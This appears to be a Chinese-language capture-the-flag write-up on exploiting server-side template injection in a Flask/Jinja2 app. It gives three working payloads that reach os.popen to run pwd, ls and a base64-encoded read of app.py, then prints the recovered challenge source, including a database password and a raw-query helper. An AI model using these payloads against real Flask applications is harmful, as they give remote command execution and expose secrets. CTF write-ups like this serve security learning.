 1.`{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("pwd").read()')}}`

2.`{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}`

获取到文件名`app.py`

3.直接cat是不行的会渲染错误 因为文件有特殊字符 所以考虑编码一下

`{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat app.py | base64").read()')}}`

4.解码获取到原文件

```python
# -*- coding: utf-8 -*-

"""
@version: ??
@author: luyx
@file: flask_sql_injection.py
@time: 5/21/18 12:30 AM
"""


import pymysql
import re
from flask import Flask, url_for, Blueprint, request, render_template_string
from flask_script import Manager


app = Flask(__name__)
portal = Blueprint('portal', __name__)


def db_client(query, method="GET"):
    conn = pymysql.connect(host='localhost',
                           user='ctf',
                           password='L5C#^taVOMMdfNh3',
                           port=3306,
                           db='ctf',
                           charset='utf8mb4',
                           autocommit=True,
                           cursorclass=pymysql.cursors.SSDictCursor)
    cursor = conn.cursor()
    try:
        cursor.execute(query)
        result = 'query executed.'
        if method == "GET":
            result = cursor.fetchall()
        conn.close()
        return result, 'OK'
    except Exception, e:
        conn.close()
        return e, 'ERROR'


def int2str(data):
    numbers = re.findall(string=data, pattern='\d+')
    numbers = list(set(numbers))
    for each in numbers:
        data = data.replace(each, '"'+each+'"')
    return data


```